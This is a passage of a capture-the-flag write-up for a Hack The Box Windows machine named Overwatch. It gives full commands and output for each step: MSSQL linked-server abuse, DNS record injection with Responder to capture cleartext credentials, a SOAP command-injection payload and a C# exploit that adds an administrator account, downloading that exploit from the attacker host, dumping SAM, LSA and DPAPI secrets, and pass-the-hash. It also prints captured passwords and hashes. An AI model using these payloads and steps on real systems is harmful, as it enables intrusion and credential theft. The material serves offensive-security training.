Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(S200401\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(S200401\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (OVERWATCH\sqlsvc  guest@master)> 
```

We confirmed our access level and discovered we were logged in as `guest`.

```shell
SQL (OVERWATCH\sqlsvc  guest@master)> SELECT user_name();
        
-----   
guest
```

We enumerated the available databases and found an `overwatch` database.

```shell
SQL (OVERWATCH\sqlsvc  guest@master)> SELECT name FROM sys.databases;
name        
---------   
master      
tempdb      
model       
msdb        
overwatch
```

Enumeration revealed a `Linked Server` configuration pointing to `SQL07`.

```shell
SQL (OVERWATCH\sqlsvc  guest@master)> enum_links
SRV_NAME             SRV_PROVIDERNAME   SRV_PRODUCT   SRV_DATASOURCE       SRV_PROVIDERSTRING   SRV_LOCATION   SRV_CAT   
------------------   ----------------   -----------   ------------------   ------------------   ------------   -------   
S200401\SQLEXPRESS   SQLNCLI            SQL Server    S200401\SQLEXPRESS   NULL                 NULL           NULL      
SQL07                SQLNCLI            SQL Server    SQL07                NULL                 NULL           NULL      
Linked Server   Local Login   Is Self Mapping   Remote Login   
-------------   -----------   ---------------   ------------
```

We switched to the `overwatch` database to check our privileges which were `db_owner` permissions which meant that we had full access to it.

```shell
SQL (OVERWATCH\sqlsvc  guest@master)> USE overwatch;
ENVCHANGE(DATABASE): Old Value: master, New Value: overwatch
```

```shell
SQL (OVERWATCH\sqlsvc  dbo@overwatch)> SELECT IS_MEMBER('db_owner') AS IsDbOwner;
IsDbOwner   
---------   
        1
```

We examined the `EventLog` table structure which was currently empty.

```shell
SQL (OVERWATCH\sqlsvc  dbo@overwatch)> SELECT TOP 1 * FROM EventLog;
Id   Timestamp   EventType   Details   
--   ---------   ---------   -------
```

```shell
SQL (OVERWATCH\sqlsvc  dbo@overwatch)> SELECT COLUMN_NAME, DATA_TYPE, IS_NULLABLE FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'EventLog';
COLUMN_NAME   DATA_TYPE   IS_NULLABLE   
-----------   ---------   -----------   
Id            int         b'NO'         
Timestamp     datetime    b'YES'        
EventType     varchar     b'YES'        
Details       varchar     b'YES'
```

## Initial Access

### DNS Takeover and Forced Authentication via SQL Linked Server

The presence of a `Linked Server` to `SQL07` presented an opportunity for a `DNS Takeover` attack. By adding a malicious `DNS` entry and forcing the server to authenticate to our controlled host we could capture `Credentials`.

#### Time and Date Synchronization

Before proceeding with `Kerberos`-based attacks we synchronized our system time with the target.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo systemctl stop systemd-timesyncd
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo net time set -S 10.129.97.137
```

#### Adding DNS Entry

We obtained a `Ticket Granting Ticket` (`TGT`) for the `sqlsvc` account to interact with `LDAP`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Overwatch/files]
└─$ impacket-getTGT overwatch.htb/sqlsvc:'TI0LKcfHzZw1Vv' 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in sqlsvc.ccache
```

#### Force Authentication

We exported the `TGT` and used `dnstool.py` from `krbrelayx` to add a malicious `DNS` record pointing `SQL07` to our attack machine.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Overwatch/files]
└─$ export KRB5CCNAME=sqlsvc.ccache
```

```shell
┌──(kali㉿kali)-[~/opt/10_post_exploitation/krbrelayx]
└─$ python3 dnstool.py -u 'overwatch.htb\sqlsvc' -p 'TI0LKcfHzZw1Vv' -r SQL07 -d 10.10.16.21 --action add 10.129.97.137
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```

With the malicious `DNS` entry in place we forced authentication by querying the `Linked Server` causing it to connect to our local machine.

```shell
SQL (OVERWATCH\sqlsvc  dbo@overwatch)> SELECT * FROM OPENQUERY("SQL07", 'SELECT @@version');
INFO(S200401\SQLEXPRESS): Line 1: OLE DB provider "MSOLEDBSQL" for linked server "SQL07" returned message "Communication link failure".
ERROR(MSOLEDBSQL): Line 0: TCP Provider: An existing connection was forcibly closed by the remote host.
```

While running `Responder` we successfully captured cleartext `Credentials` for the `sqlmgmt` account when the server attempted to authenticate.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo responder -I tun0   
[sudo] password for kali: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|


[*] Sponsor this project: [USDT: TNS8ZhdkeiMCT6BpXnj4qPfWo3HpoACJwv] , [BTC: 15X984Qco6bUxaxiR8AmTnQQ5v1LJ2zpNo]

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]
    DHCPv6                     [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.16.21]
    Responder IPv6             [dead:beef:4::1013]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-S33FSL6EMAX]
    Responder Domain Name      [SFB2.LOCAL]
    Responder DCE-RPC Port     [46343]

[*] Version: Responder 3.2.0.0
[*] Author: Laurent Gaffie, <lgaffie@secorizon.com>

[+] Listening for events...                                                                                                                                                                                                                                                                                                                                                                                                               

[MSSQL] Cleartext Client   : 10.129.97.137
[MSSQL] Cleartext Hostname : SQL07 ()
[MSSQL] Cleartext Username : sqlmgmt
[MSSQL] Cleartext Password : bIhBbzMMnB82yx
```

| Username | Password       |
| -------- | -------------- |
| sqlmgmt  | bIhBbzMMnB82yx |

With the captured `Credentials` we successfully authenticated via `WinRM` as the `sqlmgmt` user.

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.129.97.137 -u `sqlmgmt` -p 'bIhBbzMMnB82yx'
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\sqlmgmt\Documents>
```

## user.txt

```cmd
*Evil-WinRM* PS C:\Users\sqlmgmt\Desktop> cat user.txt
2d30d794db737f778f5bcc9491a5c090
```

## Enumeration (sqlmgmt)

As first logical step we checked the privileges and group memberships of the `sqlmgmt` account.

```cmd
*Evil-WinRM* PS C:\Users\sqlmgmt\Documents> whoami /all

USER INFORMATION
----------------

User Name         SID
================= =============================================
overwatch\sqlmgmt S-1-5-21-2797066498-1365161904-233915892-1105


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

We checked for listening services and confirmed the vulnerable `WCF` service was running locally on port `8000/TCP`.

```cmd
*Evil-WinRM* PS C:\Users\sqlmgmt\Documents> netstat -ano | findstr :8000
  TCP    0.0.0.0:8000           0.0.0.0:0              LISTENING       4
  TCP    [::]:8000              [::]:0                 LISTENING       4
```

## Privilege Escalation to SYSTEM

### Command Injection in WCF Service

#### Unintended Solution

With local access to the `WCF` service we exploited the `Command Injection` vulnerability in the `KillProcess()` method by crafting a malicious `SOAP` request with injected `PowerShell` commands.

```cmd
*Evil-WinRM* PS C:\Users\sqlmgmt\Documents> Invoke-WebRequest -Uri "http://localhost:8000/MonitorService" -Method POST -ContentType "text/xml" -Headers @{SOAPAction="http://tempuri.org/IMonitoringService/KillProcess"} -Body '<s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/"><s:Body><KillProcess xmlns="http://tempuri.org/"><processName>test; type C:\Users\Administrator\Desktop\root.txt  > C:\pwned.txt</processName></KillProcess></s:Body></s:Envelope>' -UseBasicParsing


StatusCode        : 200
StatusDescription : OK
Content           : <s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/"><s:Body><KillProcessResponse xmlns="http://tempuri.org/"><KillProcessResult>&#xD;
                    </KillProcessResult></KillProcessResponse></s:Body></s...
RawContent        : HTTP/1.1 200 OK
                    Content-Length: 210
                    Content-Type: text/xml; charset=utf-8
                    Date: Sat, 24 Jan 2026 20:55:15 GMT
                    Server: Microsoft-HTTPAPI/2.0

                    <s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/...
Forms             :
Headers           : {[Content-Length, 210], [Content-Type, text/xml; charset=utf-8], [Date, Sat, 24 Jan 2026 20:55:15 GMT], [Server, Microsoft-HTTPAPI/2.0]}
Images            : {}
InputFields       : {}
Links             : {}
ParsedHtml        :
RawContentLength  : 210
```

The injected commands executed successfully as `SYSTEM` creating the `pwned.txt` file in the root directory.

```cmd
*Evil-WinRM* PS C:\Users\sqlmgmt\Documents> dir C:\


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         5/16/2025   4:35 PM                inetpub
d-----          5/8/2021   1:20 AM                PerfLogs
d-r---         5/16/2025   8:11 PM                Program Files
d-----         5/16/2025   5:35 PM                Program Files (x86)
d-----         5/16/2025   5:30 PM                SQL2022
d-r---         5/16/2025   8:08 PM                Users
d-----        12/31/2025  11:17 PM                Windows
-a----         1/24/2026  12:55 PM             70 pwned.txt
```

```cmd
*Evil-WinRM* PS C:\Users\sqlmgmt\Documents> type C:\pwned.txt
1217aad98c263fb87bfff36fbbf160ed
```

#### Intended Solution

For a more persistent approach we created a `C#` exploit that would add a new `administrative user` by leveraging the `Command Injection` vulnerability.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Overwatch/serve]
└─$ cat exploit.cs 
using System;
using System.ServiceModel;

[ServiceContract]
public interface IMonitoringService
{
    [OperationContract]
    string KillProcess(string processName);
}

class Exploit
{
    static void Main(string[] args)
    {
        try
        {
            // Configure the binding and endpoint
            var binding = new BasicHttpBinding();
            binding.Security.Mode = BasicHttpSecurityMode.None;
            var endpoint = new EndpointAddress("http://127.0.0.1:8000/MonitorService");

            // Create channel
            var factory = new ChannelFactory<IMonitoringService>(binding, endpoint);
            var service = factory.CreateChannel();

            // Command injection payload - add admin user
            string cmd = "calc; net user hacker P@ssw0rd123! /add; net localgroup administrators hacker /add;#";
            
            Console.WriteLine("[*] Sending payload...");
            string result = service.KillProcess(cmd);
            Console.WriteLine("[+] Result: " + result);
            
            factory.Close();
        }
        catch (Exception ex)
        {
            Console.WriteLine("[-] Error: " + ex.Message);
        }
    }
}
```

We compiled the exploit on our attack machine.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Overwatch/serve]
└─$ mcs exploit.cs -r:System.ServiceModel.dll -out:exploit.exe
```

Then we uploaded the compiled exploit to the target.

```cmd
*Evil-WinRM* PS C:\Users\sqlmgmt\Documents> iwr 10.10.16.21/exploit.exe -o exploit.exe
```

Running the exploit successfully created a new administrative user.

```cmd
*Evil-WinRM* PS C:\Users\sqlmgmt\Documents> .\root.exe
[*] Sending payload...
[+] Result: The command completed successfully.

The command completed successfully.
```

We authenticated as the newly created `hacker` user which had full `Administrator` privileges.

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.129.97.137 -u `hacker` -p 'P@ssw0rd123!'                                              
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\hacker\Documents>
```

```shell
*Evil-WinRM* PS C:\Users\hacker\Documents> whoami /all

USER INFORMATION
----------------

User Name        SID
================ =============================================
overwatch\hacker S-1-5-21-2797066498-1365161904-233915892-7601


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ===============================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                     Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

## Post Exploitation

With administrative access we dumped the `Security Account Manager` (`SAM`) database `Local Security Authority` (`LSA`) secrets and `Data Protection API Keys` (`DPAPI`) keys.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Overwatch/files]
└─$ netexec smb 10.129.97.137 -u 'hacker' -p 'P@ssw0rd123!' --sam --lsa --dpapi                         
SMB         10.129.97.137   445    S200401          [*] Windows Server 2022 Build 20348 x64 (name:S200401) (domain:overwatch.htb) (signing:True) (SMBv1:False) 
SMB         10.129.97.137   445    S200401          [+] overwatch.htb\hacker:P@ssw0rd123! (Pwn3d!)
SMB         10.129.97.137   445    S200401          [*] Dumping SAM hashes
SMB         10.129.97.137   445    S200401          Administrator:500:aad3b435b51404eeaad3b435b51404ee:269fa056205bbf5d47fc2c3682dbbce6:::
SMB         10.129.97.137   445    S200401          Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.97.137   445    S200401          DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[22:08:54] ERROR    SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.                                                                                                                                                                                                                                                                                                 regsecrets.py:436
SMB         10.129.97.137   445    S200401          [+] Added 3 SAM hashes to the database
SMB         10.129.97.137   445    S200401          [+] Dumping LSA secrets
SMB         10.129.97.137   445    S200401          OVERWATCH\S200401$:aes256-cts-hmac-sha1-96:f4a09677df6d6dafda711e41636c86b4ca081fc22933e1b1537512071212f855
SMB         10.129.97.137   445    S200401          OVERWATCH\S200401$:aes128-cts-hmac-sha1-96:beaadd9f2684ae279f44bd88a71bfb6e
SMB         10.129.97.137   445    S200401          OVERWATCH\S200401$:des-cbc-md5:32b0e3a1eccb97f7
SMB         10.129.97.137   445    S200401          OVERWATCH\S200401$:plain_password_hex:c03f3f2298ae3065e400b86f60d071bbcff602dfcf56fed68694c8b554142e90b07122ef1e7850cd6492ace154dea48aa4bfe4f19f68aab390c9b840558555fc7b88798f46786bcaed81df02926682982c817befc10c9a7fac20328b3147b87b735452be3f4351d1142189c151344204c9dc13363ca2d35eb69dc7bbbd7eca3b9e2ff408c9ba84e99b4bbd80d88a89ff760afab187cb4188b81d23f6b7f889d452a4bd92bb224d7c89a0d3b6a4d48226ddba7afc8f9932be2e9b729bad9c2c201a899149c1c2c7e1efa4ecb6a8071f2f6cc73b269b8ee8b06074abb697ae1f97c50a07f7b604887dfcba260e9908bad8
SMB         10.129.97.137   445    S200401          OVERWATCH\S200401$:aad3b435b51404eeaad3b435b51404ee:1b0de87727db8880deb1ad234370181a:::
SMB         10.129.97.137   445    S200401          dpapi_machinekey:0xdf4c83ab57711bd91ba852ae07f5f1e40b232673
dpapi_userkey:0x78676de349163836a880152fb4cdde9fd80b0627
SMB         10.129.97.137   445    S200401          [+] Dumped 6 LSA secrets to /home/kali/.nxc/logs/lsa/S200401_10.129.97.137_2026-01-24_220851.secrets and /home/kali/.nxc/logs/lsa/S200401_10.129.97.137_2026-01-24_220851.cached
SMB         10.129.97.137   445    S200401          [+] User is Domain Administrator, exporting domain backupkey...
SMB         10.129.97.137   445    S200401          [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         10.129.97.137   445    S200401          [+] Got 7 decrypted masterkeys. Looting secrets...
```

We used the `Administrator` `NTLM Hash` to authenticate via `Pass-the-Hash`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Overwatch/files]
└─$ evil-winrm -i 10.129.97.137 -u `Administrator` -H `269fa056205bbf5d47fc2c3682dbbce6`
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

## root.txt

```shell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
1217aad98c263fb87bfff36fbbf160ed
```
